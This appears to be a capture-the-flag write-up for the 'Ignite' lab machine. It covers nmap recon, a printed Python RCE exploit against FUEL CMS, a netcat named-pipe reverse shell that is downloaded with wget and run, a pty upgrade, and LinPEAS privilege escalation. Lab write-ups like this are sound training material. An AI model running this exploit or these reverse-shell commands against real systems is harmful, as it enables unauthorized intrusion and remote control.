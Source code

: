 # Ignite

### A new start-up has a few issues with their web server.

### Root the box! Designed and created by DarkStar7471, built by Paradox.

## Recognition

### NMAP

> nmap -sCV -A -O 10.10.226.192

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-23 15:17 EDT
Nmap scan report for 10.10.226.192
Host is up (0.77s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/23%OT=80%CT=1%CU=42858%PV=Y%DS=4%DC=T%G=Y%TM=5F932C
OS:B0%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=A)SE
OS:Q(SP=106%GCD=1%ISR=10B%TI=Z%CI=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%
OS:O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2
OS:=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNS
OS:NW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   472.70 ms 10.4.0.1
2   ... 3
4   794.13 ms 10.10.226.192

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.72 seconds

```

### Site

![image](https://user-images.githubusercontent.com/53917092/97047048-bb5d0500-154e-11eb-9d20-36f4418aec03.png)

![image](https://user-images.githubusercontent.com/53917092/97047124-d92a6a00-154e-11eb-890b-a2e6fc7d34ca.png)

#### Visiting /fuel

we have a login page

![image](https://user-images.githubusercontent.com/53917092/97047273-155dca80-154f-11eb-84ce-b39629091079.png)


So I searched about this system (fuelcms) on the exploitdb site and found this:

![image](https://user-images.githubusercontent.com/53917092/97047803-e3993380-154f-11eb-95d2-cf25f25b5bac.png)

I will use the RCE Exploit because other else requires authentication and we don't have any credentials

the exploit be like

```

import requests
import urllib

url = raw_input('target (http://IP:PORT) : ')
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	r = requests.get(burp0_url)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
```

and it uses python2

### Exploiting

![image](https://user-images.githubusercontent.com/53917092/97048985-4e973a00-1551-11eb-99fa-5cbcd09522a4.png)

## getting a reverse shell

using the RCE we check that the machine has WGET command

![image](https://user-images.githubusercontent.com/53917092/97049144-91591200-1551-11eb-869f-77e1d309f88e.png)

so I will use this to download and run a reverse shell file

so I created a .sh file on my machine that contains it:

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f

and to access the machine, I used a python server

> nc -lvp PORT

> python3 -m http.server 80

![image](https://user-images.githubusercontent.com/53917092/97050038-0c6ef800-1553-11eb-8d9e-7a41cee2fbdf.png)

now I will download the file and run it in the box using RCE

> wget IP/revshell.sh -O /tmp/revshell.sh; sh /tmp/revshell.sh

![image](https://user-images.githubusercontent.com/53917092/97050364-97e88900-1553-11eb-8070-f63957ed97fd.png)

![image](https://user-images.githubusercontent.com/53917092/97050414-af277680-1553-11eb-9c0a-82eb8efaedfa.png)

it works

### getting a tty

checking if we have python

> whereis python

![image](https://user-images.githubusercontent.com/53917092/97050672-2d841880-1554-11eb-8c26-34b715bb5ed8.png)

we have python2 and python3, and we will use it

> python -c 'import pty;pty.spawn("/bin/bash")'

![image](https://user-images.githubusercontent.com/53917092/97050816-6de39680-1554-11eb-884c-304bdb41cec8.png)

### User Flag

![image](https://user-images.githubusercontent.com/53917092/97051978-8f458200-1556-11eb-9655-5c6aef004e72.png)

### Privilege escalation

again using wget, we will use LinPeas to enumarate possibles privilege escalation vectors

downloading

again we will download on our machine, upload a server and then download in the box through our machine

in our machine:

> wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh

> chmod +x linpeas.sh

> python3 -m http.server 80

in the box

> cd /tmp
> wget IP:/linpeas.sh

giving the permissions

> chmod +x linpeas.sh

running

> ./linpeas.sh > output.txt

reading output

> cat output.txt

### Privilege Escalation

![image](https://user-images.githubusercontent.com/53917092/97056470-768d9a00-155f-11eb-8d24-a72a0fcd1d02.png)

checking out this database

![image](https://user-images.githubusercontent.com/53917092/97056626-d08e5f80-155f-11eb-9b0f-9815f51646ee.png)

![image](https://user-images.githubusercontent.com/53917092/97056655-e1d76c00-155f-11eb-9ff1-a64e376d405c.png)

trying using this password

![image](https://user-images.githubusercontent.com/53917092/97056752-177c5500-1560-11eb-84bf-9bac6799a1f9.png)

### User flag

![image](https://user-images.githubusercontent.com/53917092/97056937-8659ae00-1560-11eb-803b-ccae406fa5ab.png)

that's it, thanks for reading